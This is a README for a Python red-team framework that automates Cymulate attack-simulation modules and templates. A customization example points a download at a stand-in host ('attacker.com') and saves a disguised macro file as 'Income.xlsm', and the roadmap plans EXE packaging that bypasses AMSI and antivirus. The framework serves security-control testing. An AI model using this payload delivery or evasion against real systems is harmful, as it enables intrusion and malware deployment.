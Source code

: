 # cymulate-framework

![](https://i.imgur.com/B9Z8nyQ.png)

- **Notice**: This project is still under development and not ready for production use.

## Introduction

The framework to automate Cymulate's modules and templates.

**What is Cymulate?**

> [Cymualte](https://cymulate.com/) is a BAS (Break and Attack Simulation) platform that provides a comprehensive set of attack simulations based on the **MITRE ATT&CK® framework** to test the effectiveness of your security controls.

This project is aimed to help red team construct fully customizable and automated APT attacks easily.

## Functionality

- [ ] Scrape modules and templates from Cymulate and transform them into scripts.
- [ ] Automate the execution of templates such as APT, Phishing, etc.
- [ ] Generate standalone EXE for templates and bypass AMSI, Antivirus

## Usage

Make sure `python 3.11+` and `poetry` are installed:

- **Python 3.11+** - https://www.python.org/downloads/
- **Poetry** - https://python-poetry.org/docs/#installation

```bash
git clone https://github.com/opabravo/cymulate-framework
cd cymulate-framework

# Install required python packages
poetry install

# Activate virtual environment
poetry shell

# Run default template (APT34)
python main.py

# Run desired execution module by id
python main.py <module_id>

# Ex:
python main.py 62385f03a0e69ed2274622cc
```

Batch Scripts:

- `client_start.bat` - Reset and update to the latest version of the framework then run `main.py`

## How it works

Cymulate's execution module have 5 main steps:

1. **Check dependency** - Check if required dependencies are installed.
2. **Execution** -Run the mitre ATT&CK technique execution.
3. **Success Indicate** - Check if the attack was successful via parsing execution output or check exit code.
4. **Output Parsing** - Parse the output of the execution for further uses.
5. **Cleanup** - Clean up the execution environment.

The framework will automate the execution of the above steps.

## Customization

We can pass self defined parameters to the execution module like this:

```python
# Import windows module from core
from core.module.windows import WindowsModule

# Create a windows module instance
execution = WindowsModule("62385f03a0e69ed2274622cc", log_level="DEBUG")

# Update the input arguments to your own ones
execution.input_arguments.update({
    "download_file_url": "https://attacker.com/very_dangerous_excel.xlsx",
    "download_file_path": "$env:userprofile\Downloads\Income.xlsm",
})

# Execute the module after initialization
execution.run()
```

## Development

### Blueprint

- `Basic structure` - The basic structure of the project.
- `APT template` - APT template automation test.
- `Scrape modules and templates` - Scrape modules and templates via Cymulate's [API](https://api.app.cymulate.com/docs/#/)
- `Transform modules and templates` - Transform modules and templates into cymulate-framework modules.
- `Automate execution` - Automate the execution of templates.
- `APT Script generator` - Generate scripts for APT template with extracted specific execution scripts (don't wanna load the 20+mb json file) and load corresponding required 3rd party pip packages into scripts
- `Pack Script to EXE` - Pack generated template script with its requirements(pip packages, execution scripts) into EXE via `pyisntaller`, `py2exe` or `Nuitka`
- `ClI` - A CLI to interact with the framework.

### Notes

- Using `builtin dataclass` + `dacite` for JSON deserializing model instead of `pydantic` since `dacite` is enough for the purpose.

## Contributing

Feel free to submit pull requests and issues.

## License

[MIT](https://choosealicense.com/licenses/mit/)
